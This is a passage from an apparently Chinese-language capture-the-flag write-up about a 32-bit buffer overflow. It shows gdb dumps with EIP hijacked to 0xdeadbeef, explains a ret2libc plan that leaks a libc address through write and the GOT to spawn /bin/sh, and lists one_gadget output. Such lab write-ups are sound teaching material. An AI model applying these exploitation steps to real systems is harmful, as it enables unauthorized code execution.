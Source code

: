 ```c
Legend: code, data, rodata, value
0x0804865b in dovuln ()
```

继续执行，可见EIP已经覆盖为0xdeadbeef
```c
[----------------------------------registers-----------------------------------]
EAX: 0x35 ('5')
EBX: 0x0 
ECX: 0x0 
EDX: 0xf7ef8870 --> 0x0 
ESI: 0xf7ef7000 --> 0x1b1db0 
EDI: 0xf7ef7000 --> 0x1b1db0 
EBP: 0xb19b00b5 
ESP: 0xffde93d0 --> 0x0 
EIP: 0xdeadbeef
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xdeadbeef
[------------------------------------stack-------------------------------------]
0000| 0xffde93d0 --> 0x0 
0004| 0xffde93d4 --> 0x1 
0008| 0xffde93d8 --> 0x2 
0012| 0xffde93dc --> 0x3 
0016| 0xffde93e0 --> 0xf7ef7000 --> 0x1b1db0 
0020| 0xffde93e4 --> 0xf7ef7000 --> 0x1b1db0 
0024| 0xffde93e8 --> 0x0 
0028| 0xffde93ec --> 0xf7d5d637 (<__libc_start_main+247>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0xdeadbeef in ?? ()

```

可以看到我们已经成功的控制了EIP，可以控制程序流了，不过这就万事大吉了么？劫持了程序流之后劫持到哪才能利用呢？


### ret2libc

通过刚才的分析知道，我们可以已经成功劫持EBP和EIP，并且和栈溢出一样，我们还控制了栈顶的数据。但是这题栈不可执行，不能把shellcode写在栈里，这个ELF文件里也没有后门函数，也没有int 0x80指令（0xcd 0x80)，那么就只能想办法去跳到libc中函数去执行，那么首先必须要知道的就是libc基址。所以可以去利用题目中本身有的函数，比如write函数，将返回地址覆盖plt表中为write函数的地址，然后控制栈上的参数为一个got表中的libc函数的地址，返回地址接main函数，这样用write函数打印出一个libc函数的真实地址，这里我用的函数是read，用这个地址减去这个函数再libc中的偏移，就可以得到libc的基址，而且当这个动作完成之后我们又能回到main函数然后继续去利用这个溢出漏洞去控制程序流，我们就可以用刚才的得到的libc的基址算出其中的execve函数的真实位置，算出"/bin/sh"字符串的真实位置，然后重新布置栈，继续栈溢出就可以getshell啦！

当然也可以用one_gadget，即知道libc的基址，直接跳到one_gadget的地址即可，不过这个libc的有的限制达不到，基本都是需要控制esi，虽然可以通过ROP的方式做到，不过这题还是乖乖的用ret2libc的方法布置栈吧。

```
➜   one_gadget libc-2.23.so
0x3a80c execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL
```
